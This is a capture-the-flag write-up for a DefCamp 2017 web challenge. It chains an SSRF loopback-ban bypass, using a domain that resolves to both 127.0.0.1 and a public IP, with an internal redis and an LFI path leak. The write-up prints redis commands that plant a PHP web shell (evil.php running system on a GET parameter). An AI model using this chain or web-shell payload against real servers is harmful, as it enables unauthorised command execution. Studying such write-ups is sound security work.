

It's obvious that we have three vulnerabilities:

1. SSRF in `https://secure-httpbin.dctf-quals-17.def.camp/`, but intranet ip and  loopback ip is banned.

1. LFI in `https://sandbox.secure-httpbin.dctf-quals-17.def.camp/?nolog`.

1. Length extension attack to fake the signature.

We could bind a domain to both `127.0.0.1` and a public ip. So that we can bypass the check in SSRF and send requests to localhost.

As the vhosts on the server is recognized by domain, we could not use the domain to visit `flag.php`.
So we try other ports and found that redis is open.

As we can send post requests, it's very easy to write file with redis.
With the error info in LFI, we can know the path for php source code.



So, POST data could be:

```
SET x "<?php system($_GET['cmd']); ?>"
CONFIG SET dir /var/www/sandbox
CONFIG SET dbfilename evil.php
SAVE
```

After sent the POST request, we can visit `https://sandbox.secure-httpbin.dctf-quals-17.def.camp/evil.php?cmd=ls` to get command execution.

*PS: In order to prevent backdoor leakage to other players, the organizers will empty the backdoor periodically.*
